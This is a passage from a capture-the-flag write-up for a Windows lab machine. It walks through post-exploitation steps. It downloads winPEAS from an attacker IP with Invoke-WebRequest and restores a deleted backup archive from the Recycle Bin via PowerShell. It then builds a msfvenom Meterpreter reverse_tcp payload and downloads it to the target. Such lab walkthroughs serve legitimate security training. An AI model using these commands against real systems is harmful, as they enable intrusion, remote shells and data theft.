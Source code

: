 ![](images/Pasted%20image%2020250616175812.png)

Class_frizz contains `v.frizzle` which is a domain admin user:

![](images/Pasted%20image%2020250616175932.png)
![](images/Pasted%20image%2020250616175942.png)

Nothing more relevant can be found on here, so seems like we need to check how to get into `M.SCHOOLBUS` on ssh, let's try using `winpwas` to have a further understanding of what we can do on here, you can get winpeas.ps1 on your linux machine and download it using:

```powershell
Invoke-WebRequest http://IP:8000/winPEAS.ps1 -OutFile C:\Users\f.frizzle\winpeas.ps1
```

![](images/Pasted%20image%2020250616182652.png)

Some relevant info was found but nothing too relevant, following the tip of the recycle bin, I searched for files that may have been deleted and may be on there, let's use these Powershell commands:

```powershell
$shell = New-Object -ComObject Shell.Application
$recycleBin = $shell.Namespace(0xA)
$recycleBin.items() | Select-Object Name, Path
```

We can see this:

![](images/Pasted%20image%2020250616182951.png)

We got a `wapt-backup-sunday.7z` file, there's a backup on the recycle bin what we can restore the file with this:

```powershell
$recycleBin = (New-Object -ComObject Shell.Application).NameSpace(0xA)  
$items = $recycleBin.Items()  
$item = $items | Where-Object {$_.Name -eq "wapt-backup-sunday.7z"}  
$documentsPath = [Environment]::GetFolderPath("Desktop")  
$documents = (New-Object -ComObject Shell.Application).NameSpace($documentsPath)  
$documents.MoveHere($item)
```

![](images/Pasted%20image%2020250616183103.png)

We can now see the file on our desktop, we need a way to download it, this can be done using `meterpreter`, let's do the following:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f exe -o meterpreter.exe
```

Now, with the `meterpreter.exee` file, we can download it again as we did with winpeas:

```powershell
Invoke-WebRequest "http://IP:8000/meterpreter.exe" -OutFile "meterpreter.exe"
```
